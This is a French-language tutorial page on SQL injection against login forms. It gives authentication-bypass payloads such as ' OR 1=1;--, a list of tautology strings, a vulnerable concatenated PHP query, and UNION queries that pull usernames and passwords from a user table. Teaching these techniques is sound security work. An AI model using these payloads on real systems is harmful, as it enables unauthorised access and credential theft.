 # Injection de commandes SQL

## Se connecter sans identifiant et sans mot de passe

On tape dans l'identifiant : 

```sql
' OR 1=1 ;--
```

Et on n'oublie pas de mettre un mot de passe aléatoire, au cas ou le système vérifie si un mot de passe est rentré.

{% hint style="warning" %}
Si une erreur est affiché comme 'SQL error', alors il y a une faille dans la gestion du formulaire. Dans cas on va pouvoir l'exploiter pour en tirer d'autres infos. Si aucune sécurité n'est mise en place, la connexion se fera sur le premier utilisateur de la base de données.
{% endhint %}

## Se connecter avec seulement l'identifiant

#### 1. Par le nom d'utilisateur

Dans un premier temps, on peut s'attaquer au _**nom d'utilisateur**_. Prenons par exemple, une requête de connexion au serveur de ce type :

```sql
select * from user_table
where username = 'anto'
and password = 'mystrongpassword';
```

En supposant que le mot de passe ne soit pas haché, la requête PHP ressemblerait à ceci :

```php
// Connexion à la database
$db_query = "select * from user_table where
username = '".$user."'
AND password = '".$password."';";
// Execution de la requête
```

Ainsi, en entrant dans la section du nom d'utilisateur « **anto’;--** » la requête SQL devient :

```sql
select * from user_table where
username = 'anto';-- and password = ''
```

Or, le double tiret permet de commenter du code en SQL, ce qui revient donc à contourner le mot de passe, et à pouvoir se connecter en ayant uniquement besoin du nom d'utilisateur.



#### 2. Par le mot de passe, par attaque booléenne 

Une deuxième possibilité à tester, est l'injection SQL booléenne. Par exemple, en ayant une requête SQL de ce type :

```sql
select * from user_table where
username = 'anto' and
password = 'password';
```

On peut très bien contourner le mot de passe, en entrant dans la section du mot de passe la commande « **'or 1=1;--** » qui transforme la requête comme ceci :

```sql
select * from user_table where
username = 'anto' and
password = '' or 1=1;--;
```

Et qui de ce fait, rend totalement inutile la condition password='anto' vu que la condition 1=1 sera toujours vraie.

Il existe une infinité de conditions triviales, par exemple :

```sql
'='
'OR 1=1
'OR a=a
'OR'
'OR''='
'OR"="
'OR'="
'OR '="
'OR "='
'OR ''='
'OR '=''
'OR "=''
'OR ''="
```



{% hint style="warning" %}
Malheureusement pour nous, ces genres de vulnérabilités sont extrêmement rares, mais valent le coup d'être essayés.
{% endhint %}

## Méthode UNION

Une fois une vulnérabilité trouvée, on peut l'exploiter.

#### Les objectifs de cette techniques par commande UNION sont :

* Trouver le nombre et le type de chaque colonne retournée par la requête
* Trouver le nom d'une colonne et d'une table comportant des choses intéressantes \(Login, Password, etc.\)
* Utiliser une union pour récupérer les informations

```sql
select title, link from post_table
where id < 10
union
select username, password
from user_table; --;
```

{% hint style="info" %}
Pour une base PostgreSQL, la colonne tablename de la table **pg\_tables** va permettre de récupérer le nom des tables, pour MSSQL, select name from **SysObjects**, pour MySQL, select table\_name from **information\_schema.tables .**
{% endhint %}



